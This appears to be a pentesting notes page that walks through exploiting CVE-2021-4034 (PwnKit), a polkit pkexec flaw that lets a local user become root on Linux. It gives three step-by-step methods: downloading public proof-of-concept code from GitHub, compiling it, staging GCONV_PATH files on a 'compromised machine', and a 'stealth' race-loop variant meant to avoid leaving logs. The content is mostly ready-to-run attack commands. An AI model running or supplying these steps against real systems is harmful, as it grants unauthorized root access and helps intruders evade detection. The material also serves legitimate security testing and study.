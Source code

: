 # CVE-2021-4034

Local Privilege Escalation (from any user to root) in polkit's pkexec, through a SUID-root program called pkexec that is installed by default in all major Linux distributions.

## Practice

{% tabs %}
{% tab title="Method #1" %}
### Requirements

* **gcc** in the compromised machine.

### Download

{% embed url="https://github.com/arthepsy/CVE-2021-4034" %}

```bash
wget https://raw.githubusercontent.com/arthepsy/CVE-2021-4034/main/cve-2021-4034-poc.c
```

### Method

First we have to check if the compromised machine has the gcc command to compile our .C file:

```
which gcc
```

If the command is present, we transfer the .C file to the compromised machine.

{% hint style="warning" %}
If the command is not there, we use Docker to compile it with the same architecture as the victim machine.
{% endhint %}

After transferring the .C file, we compile and run it:

```bash
gcc cve-2021-4034-poc.c -o exploit
chmod +x exploit
./exploit
```
{% endtab %}

{% tab title="Method #2" %}
### Requirements

* None, the code can be compiled on our machine and then pass the necessary files to the compromised machine.

### Download

{% embed url="https://github.com/berdav/CVE-2021-4034" %}

```bash
git clone https://github.com/berdav/CVE-2021-4034
```

### Method

```bash
cd CVE-2021-4034
make
# We transfer the following files:
# - cve-2021-4034
# - gconv-modules
# - pwnkit.so
# - GCONV_PATH=.    # create the directory -> mkdir GCONV_PATH\=.
# - pwnkit.so:.

mv pwnkit.so:. GCONV_PATH\=./
chmod +x pwnkit.so
chmod +x GCONV_PATH\=./pwnkit.so\:.
chmod +x cve-2021-4034
./cve-2021-4034
```
{% endtab %}

{% tab title="Method #3 (stealth)" %}
An alternative method of exploiting PwnKit (CVE-2021-4034) from Qualys without leaving behind logs.

### Download

{% hint style="danger" %}
Remember to compile it with the same architecture.
{% endhint %}

On our machine, we run the following script:

```bash
#!/bin/bash

git clone https://github.com/Ayrx/CVE-2021-4034
cd CVE-2021-4034
gcc -shared -fPIC -o payload.so payload.c
gcc -o exploit exploit.c
gcc -o shell shell.c
```

We transferred the following files to the compromised machine:

```bash
mkdir exploit
cd exploit
# Transfer:
# - payload.so
# - exploit
# - shell
# - gconv-modules
```

In the compromised machine, we run the following script:

```bash
#!/bin/bash

chmod +x payload.so exploit shell
mkdir -p "GCONV_PATH=."
touch "GCONV_PATH=./value"
chmod u+x "GCONV_PATH=./value"
mkdir -p value
cp gconv-modules value/
mv payload.so value/
```

You must have two Bash sessions on the compromised machine to run the following:

```bash
# Session 1:
while :; do mv "GCONV_PATH=./value" "GCONV_PATH=./value.bak"; mv "GCONV_PATH=./value.bak" "GCONV_PATH=./value"; done
# Session 2:
while :; do ./exploit; done
# Finally, we cancel the first and then the second and:
./shell
```
{% endtab %}
{% endtabs %}

